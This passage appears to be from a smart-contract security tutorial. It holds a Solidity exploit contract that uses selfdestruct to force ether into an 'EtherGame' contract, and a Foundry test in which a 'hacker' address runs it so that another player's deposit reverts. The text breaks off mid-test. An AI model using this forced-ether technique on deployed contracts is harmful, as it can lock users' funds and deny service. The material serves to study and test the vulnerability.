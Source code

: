 ### Test

Exp:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import "src/Test.sol";

contract Exp {
    EtherGame eg;

    constructor(address addr) {
        eg = EtherGame(addr);
    }

    function Attack() public payable {
        // 自毁，同时向游戏合约转账
        selfdestruct(payable(address(eg)));
    }
}
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
// import "forge-std/Vm.sol";
import {EtherGame} from "src/Test.sol";
import {Exp} from "src/Exp.sol";

contract TestTest is Test {
    // Vm vm = Vm(address(uint160(uint256(keccak256("hevm cheat code")))));
    EtherGame eg;
    address alice;
    address hacker;
    Exp exp;

    function setUp() public {
        eg = new EtherGame();
        alice = makeAddr("alice");
        hacker = makeAddr("hacker");
        vm.deal(address(alice), 2 ether);
        vm.deal(address(hacker), 6 ether);
    }

    function test_dos() public {
        // alice deposit 1 ether
        vm.startPrank(alice);
        eg.deposit{value: 1 ether}();
        vm.stopPrank();
        vm.startPrank(hacker);
        exp = new Exp(address(eg));
        // hacker send 6 ether to EtherGame through Exp
        // now EtherGame has 7 ether
        exp.Attack{value: 6 ether}();
        console.log("Balance:", address(eg).balance);
        vm.stopPrank();
        vm.startPrank(alice);
        vm.expectRevert();
        // alice wants to get the reward
        // revert
        eg.deposit{value: 1 ether}();
```